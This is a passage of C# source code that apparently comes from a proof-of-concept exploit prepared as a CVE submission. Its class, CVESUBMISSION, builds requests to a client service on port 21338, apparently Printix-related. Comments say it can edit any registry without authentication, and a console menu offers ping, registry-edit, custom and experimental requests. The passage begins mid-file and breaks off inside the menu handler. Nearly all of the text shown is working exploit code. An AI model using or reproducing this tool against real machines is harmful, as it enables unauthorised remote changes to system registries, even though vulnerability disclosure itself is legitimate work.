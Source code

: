                 }
        }
        return array;
    }
}
class CVESUBMISSION
{
    static void Main(string[] args)
    {
    FORCERESTART:
        try
        {

            //Edit any registry without auth:
            //Use command 49, use the code provided on the desktop...
            //This modifies it directly, so no specific username is needed. :D

            //The command parameter, a list of commands is below.
            int command = 43;

            //To force the user to input variables or not.
            bool forceCustomInput = false;

            //The data to send, this isn't flexible and should be used only for specific examples.
            //Try to keep above 4 characters if you're just shoving things into the command.
            string data = "{\"profileID\":1,\"result\":true}";

            //The username to use.
            //This is to fulfill the requriements whilst in development mode.
            DefaultValues.CurrentSessName = "printixMDNs7914";

            //The host to connect to. DEFAULT= "localhost"
            string host = "192.168.1.29";

        //                                Configuration Above

        InvalidInputLabel:
            Console.Clear();
            Console.WriteLine("Please select the certificate you want to use with port 21338.");
            //Deprecated, certificates are no longer needed to verify, as clientside only uses the self-signed certificates now.
            Console.WriteLine("Already selected, client authentication isn't needed.");

            Console.WriteLine(" /───────────────────────────\\ ");
            Console.WriteLine("\nWhat would you like to do?");
            Console.WriteLine("\n    1. Send Ping Request");
            Console.WriteLine("    2. Send Registry Edit Request");
            Console.WriteLine("    3. Send Custom Request");
            Console.WriteLine("    4. Experimental Mode (Beta)\n");
            Console.Write("I choose option # ");

            try
            {
                switch (int.Parse(Console.ReadLine().ToLower()))
                {
                    case (1):
                        Session session = new Session(2);
